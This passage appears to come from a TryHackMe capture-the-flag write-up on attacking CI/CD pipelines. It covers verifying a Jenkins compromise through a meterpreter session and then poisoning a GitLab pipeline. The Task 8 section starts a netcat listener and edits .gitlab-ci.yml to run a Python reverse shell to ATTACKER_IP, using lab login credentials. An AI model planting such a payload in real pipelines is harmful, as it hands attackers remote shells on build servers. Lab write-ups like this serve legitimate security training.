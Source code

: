 ```shell
[100]	Exit
Selection:2
Please provide the hostname of the host you have compromised (please use the name provided in your network diagram): Jenkins

In order to verify your access, please complete the following steps.
1. On the jenkins host, navigate to the /flag/ directory
2. Create a text file with this name: myuser.txt
3. Add the following UUID to the first line of the file: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx
4. Click proceed for the verification to occur

Once you have performed the steps, please enter Y to verify your access.
If you wish to fully exit verification and try again please, please enter X.
If you wish to remove this verification attempt, please enter Z
Ready to verify? [Y/X/Z]:
```
* Do the required steps back to **msfconsole**:
```shell
meterpreter > edit /flag/myuser.txt
(paste xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx)
```
* Back to **mother** proceed with the verification:
```shell
Ready to verify? [Y/X/Z]: Y

Congratulations! You have received the flag for: Build Server Compromise

Your flag value is: THM{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}
```

## Task 8: Securing the Build Pipeline

**Prepare attacker machine**

⚠️ AttackBox is suposed to be visible from **Gitlab runners** but sometimes it is not, so the alternative is to do it locally connected to the CI/CD VPN (see Task 2: Setting up)

* Execute the listener:
```shell
nc -lvp 8081
```

**Run Gitlab job to get a reverse shell**

* Go to http://gitlab.tryhackme.loc
* Log in as `anatacker` (password `Password1@`)
* Go to http://gitlab.tryhackme.loc/ash/approval-test
* Edit `.gitlab-ci.yml` (replacing `ATTACKER_IP`):
```yaml
stages:
  - deploy

production:
  stage: deploy
  script:
    - /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
  environment:
    name: ${CI_JOB_NAME}
```
* Commit changes and create merge request
